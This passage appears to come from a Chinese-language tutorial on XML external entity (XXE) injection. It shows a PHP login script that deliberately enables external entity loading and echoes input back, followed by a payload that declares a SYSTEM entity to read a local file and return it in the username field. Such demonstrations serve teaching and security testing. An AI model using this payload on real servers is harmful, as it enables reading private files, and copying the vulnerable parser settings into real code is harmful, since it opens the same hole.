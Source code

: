 ```plain
<?php
$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $username = $creds->username;
    $password = $creds->password;
    if($username == $USERNAME && $password == $PASSWORD){
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
    }else{
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
    }   
}catch(Exception $e){
    $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}
header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

1.  有回显

构造payload

```plain
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE hack [
<!ENTITY file SYSTEM  "file:///d:/qwzf.txt">
]>
<user>
  <username>&file;</username>
  <password>hack</password>
</user>
```
